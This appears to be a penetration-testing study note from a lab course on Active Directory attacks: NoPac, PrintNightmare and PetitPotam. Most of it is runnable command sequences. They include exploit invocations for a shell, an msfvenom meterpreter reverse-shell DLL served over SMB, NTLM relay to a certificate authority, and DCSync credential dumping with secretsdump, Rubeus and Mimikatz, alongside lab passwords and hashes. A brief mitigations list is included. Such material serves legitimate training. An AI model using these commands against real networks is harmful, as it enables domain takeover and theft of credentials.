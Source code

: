 
- [Miscellaneous Misconfigurations & CVEs](#miscellaneous-misconfigurations--cves)
    - [NoPac (SamAccountName Spoofing)](#nopac-samaccountname-spoofing)
    - [PrintNightmare](#printnightmare)
    - [PetitPotam (MS-EFSRPC)](#petitpotam-ms-efsrpc)
        - [PetitPotam Mitigations](#petitpotam-mitigations)
    - [Exchange Related Group Membership](#exchange-related-group-membership)




# Miscellaneous Misconfigurations & CVEs
## NoPac (SamAccountName Spoofing)
- You're tricking the system into treating a new computer (added by you) as if it's a Domain Controller (DC), which is a very important system in the network.
- How does it work?

    - Normally, users can add a few computers to the domain.
    - When adding a new computer, you rename it to mimic the name of an existing Domain Controller (its SamAccountName).
    - The system gets confused because it sees the new computer and the DC as the same, due to the name match.
    - When you request Kerberos tickets, The system mistakenly gives you tickets for the Domain Controller instead of your new computer.


- We can use this [tool](https://github.com/Ridter/noPac) to perform the attack

> [!IMPORTANT]
> In some environments, an astute sysadmin may set the `ms-DS-MachineAccountQuota` value to 0. 
> If this is the case, the attack will fail because our user will not have the rights to add a new machine account. Setting this to 0 can prevent quite a few AD attacks.


```bash
# Scanning for NoPac
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap

# Running NoPac & Getting a Shell
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap

# Using noPac to DCSync the Built-in Administrator Account
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator

```

## PrintNightmare
- PrintNightmare is the nickname given to two vulnerabilities (CVE-2021-34527 and CVE-2021-1675) found in the Print Spooler service that runs on all Windows operating systems.

- Using cube0x0's exploit:

```bash
# Cloning the Exploit
git clone https://github.com/cube0x0/CVE-2021-1675.git

```

- For this exploit to work successfully, we will need to use cube0x0's version of Impacket. We may need to uninstall the version of Impacket on our attack host and install cube0x0's

```bash
# Install cube0x0's Version of Impacket
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install

```
- We can use rpcdump.py to see if Print System Asynchronous Protocol and Print System Remote Protocol are exposed on the target.

```bash
# Enumerating for MS-RPRN
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

# Generating a DLL Payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll

# Creating a Share with smbserver.py
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

# Configuring & Starting MSF multi/handler
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 172.16.5.225
LHOST => 10.3.88.114
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
LPORT => 8080
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 172.16.5.225:8080 

# Running the Exploit
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'

```

## PetitPotam (MS-EFSRPC)
- An attacker coerces a Domain Controller into proving its identity to another system.
- What does the attacker do?
    - The attacker sends specially crafted messages to the DC over port 445.
    - This tricks the DC into connecting to another system and trying to authenticate using NTLM (a Windows authentication method).
    - The attacker intercepts and relays this authentication to a Certificate Authority (CA) system.

- **Attack steps**
1. Start `ntlmrelayx.py` in one window on our attack host, specifying the Web Enrollment URL for the CA host and using either the KerberosAuthentication or DomainController AD CS template.If we didn't know the location of the CA, we could use a tool such as [certi](https://github.com/zer1t0/certi) to attempt to locate it.
```bash
# Starting ntlmrelayx.py
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController

```
2. In another window, we can run the tool PetitPotam.py. We run this tool with the command `python3 PetitPotam.py <attack host IP> <Domain Controller IP>` to attempt to coerce the Domain Controller to authenticate to our host where ntlmrelayx.py is running.

> [!IMPORTANT]
> There is an executable version of this tool that can be run from a Windows host. The authentication trigger has also been added to Mimikatz and can be run as follows using the encrypting file system (EFS) module: `misc::efs /server:<Domain Controller> /connect:<ATTACK HOST>`. There is also a PowerShell implementation of the tool [Invoke-PetitPotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1).

```bash
# Running PetitPotam.py
python3 PetitPotam.py 172.16.5.225 172.16.5.5
```
3. Back in our other window, we will see a successful login request and obtain the base64 encoded certificate for the Domain Controller if the attack is successful.

4. Next, we can take this base64 certificate and use `gettgtpkinit.py` to request a Ticket-Granting-Ticket (TGT) for the domain controller.

```bash
# Requesting a TGT Using gettgtpkinit.py

python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```

5. The TGT requested above was saved down to the dc01.ccache file, which we use to set the KRB5CCNAME environment variable, so our attack host uses this file for Kerberos authentication attempts.
```bash
# Setting the KRB5CCNAME Environment Variable
export KRB5CCNAME=dc01.ccache
```

6. We can then use this TGT with secretsdump.py to perform a DCSYnc and retrieve one or all of the NTLM password hashes for the domain.

```bash
# Using Domain Controller TGT to DCSync
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL

```

7. Confirming Admin Access to the Domain Controller
```bash
crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf
```

- **Alternatives**:
1. Once we have the TGT for our target. Using the tool `getnthash.py` from PKINITtools we could request the NT hash for our target host/user by using Kerberos U2U to submit a TGS request with the Privileged Attribute Certificate (PAC) which contains the NT hash for the target. This can be decrypted with the AS-REP encryption key we obtained when requesting the TGT earlier.
```bash
# Submitting a TGS Request for Ourselves Using getnthash.py

python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$
```

2. We can then use this hash to perform a DCSync with secretsdump.py using the `-hashes` flag.
```bash
# Using Domain Controller NTLM Hash to DCSync
secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba


```

2. Alternatively, once we obtain the base64 certificate via ntlmrelayx.py, we could use the certificate with the Rubeus tool on a Windows attack host to request a TGT ticket and perform a pass-the-ticket (PTT) attack all at once.
```powershell
# Requesting TGT and Performing PTT with DC01$ Machine Account
PS C:\Tools> .\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt

# We can then type klist to confirm that the ticket is in memory.
PS C:\Tools> klist

```
- Again, since Domain Controllers have replication privileges in the domain, we can use the pass-the-ticket to perform a DCSync attack using Mimikatz from our Windows attack host.
```powershell
# Performing DCSync with Mimikatz
mimikatz # lsadump::dcsync /user:inlanefreight\krbtgt

```

### PetitPotam Mitigations

- To prevent NTLM relay attacks, use Extended Protection for Authentication along with enabling Require SSL to only allow HTTPS connections for the Certificate Authority Web Enrollment and Certificate Enrollment Web Service services
- Disabling NTLM authentication for Domain Controllers
- Disabling NTLM on AD CS servers using Group Policy
- Disabling NTLM for IIS on AD CS servers where the Certificate Authority Web Enrollment and Certificate Enrollment Web Service services are in use


## Exchange Related Group Membership
